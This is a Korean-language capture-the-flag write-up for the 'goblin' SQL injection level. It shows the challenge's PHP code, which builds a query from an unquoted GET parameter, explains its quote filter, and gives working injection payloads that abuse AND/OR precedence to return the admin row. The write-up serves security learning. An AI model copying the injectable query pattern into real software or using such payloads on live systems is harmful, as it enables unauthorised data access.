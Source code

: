# GOBLIN

## Problem
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~"); 
  $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("goblin");
  highlight_file(__FILE__); 
?>
```

## Inspection
* ``if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~");``
	- [RegExr](https://regexr.com/)로 분석.
	- **`'`, `"`, `` ` ``가 걸러진다.**
	- `/i`는 대소문자 구분이 없다는 뜻이다.
* `select id from prob_goblin where id='guest' and no={$_GET[no]}`
	- 파라미터로 `no`가 넘겨진다.
* `if($result['id'] == 'admin') solve("goblin");`
	- 쿼리문의 결과의 `id`가 `admin`이어야 통과한다.
* `?no=1`를 날려보니 `Hello guest`가 뜬다.
* `no`가 주요키라면 오름차순으로 수가 증가할 것이므로, `no=2`가 `admin`일 것이다.

## Solution
* `AND`, `OR` 연산자 우선순위의 차이를 이용한다.
	- `?no=2 or no=2` -> `select id from prob_goblin where id='guest' and no=2 or no=2`로 잘 통과한다.
	- `?no=2 or no<>1` -> `select id from prob_goblin where id='guest' and no=2 or no<>1`로 잘 통과한다.
	- `X and Y or Z`에서 `X and Y`의 결과를 거짓이 나오게 만들고, `Z`의 결과가 참이 나오게 만들어야 한다.